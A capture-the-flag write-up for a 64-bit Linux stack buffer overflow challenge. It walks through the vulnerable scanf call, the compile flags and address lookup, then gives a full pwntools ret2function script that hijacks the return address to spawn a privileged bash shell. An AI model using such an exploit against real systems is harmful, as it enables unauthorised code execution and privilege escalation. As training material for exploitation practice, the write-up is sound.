



# ELF x64 - Stack buffer overflow - basic

## Target

A small 64-bit Linux binary (`chall`) compiled as:

```sh
gcc -o chall source.c -fno-stack-protector -no-pie \
    -Wl,-z,relro,-z,now,-z,noexecstack
```

Relevant source (simplified):

```c
void callMeMaybe(){
    char *argv[] = { "/bin/bash", "-p", NULL };
    execve(argv[0], argv, NULL);
}

int main(...) {
    char buffer[256];
    scanf("%s", buffer);
    printf("Hello %s\n", buffer);
    return 0;
}
```

## Vulnerability summary

* The program reads user input with `scanf("%s", buffer);` into a fixed-size stack buffer of **256** bytes **without length checking** → classic stack overflow.
* `-fno-stack-protector` disables stack canaries, `-no-pie` makes code addresses fixed, and `-z,noexecstack` prevents executing shellcode from the stack — but we can simply overwrite the saved return address and jump to an existing function (`callMeMaybe`) that calls `execve("/bin/bash", ...)`.
* Because PIE is disabled, the address of `callMeMaybe` is static and can be found in the ELF symbol table (`objdump -d`, `nm`, `readelf -s`, or via pwntools `ELF(exe).symbols['callMeMaybe']`).

## Exploitation idea

Overwrite the saved return address on the stack with the address of `callMeMaybe`. When `main` returns, execution will jump to `callMeMaybe`, which spawns a root-preserving shell (`/bin/bash -p`) — providing an interactive shell.

This is a straightforward return-to-`callMeMaybe` exploit (no ROP chains, no libc needed).

---


### Find the address of `callMeMaybe`

Using pwntools or standard tools:

* pwntools:

```py
from pwn import *
elf = ELF('./chall')
print(hex( elf.symbols['callMeMaybe'] ))
```

* or with `nm` / `objdump`:

```sh
nm -C chall | grep callMeMaybe
# or
objdump -d chall | grep -A1 '<callMeMaybe>'
```




### 3. Determine the overflow offset (where saved rip is overwritten)


we can find the offset using `r2`



so the offset is `280`

---

## Final exploit 

This script:

* Determines `callMeMaybe` address from the ELF,
* Uses a verified offset (you can hardcode after discovery),
* Sends the payload and drops to an interactive shell.

```py
from pwn import *

exe = './chall'
elf = ELF(exe)
context.binary = elf
context.log_level = 'info'


OFFSET = 280   # example — you MUST find this with cyclic_find
CALL_ADDR = elf.symbols['callMeMaybe']   # e.g. 0x401020

payload = b'A' * OFFSET + p64(CALL_ADDR)

p = process(exe)
p.sendline(payload)
p.interactive()   # should drop you to shell from execve
```

How it works:

* `b'A' * OFFSET` fills up buffer + saved frame bytes up to the saved return pointer.
* `p64(CALL_ADDR)` writes the 8-byte little-endian address of `callMeMaybe` into the saved RIP slot. When `main` returns, execution jumps there and `execve("/bin/bash",...)` runs.

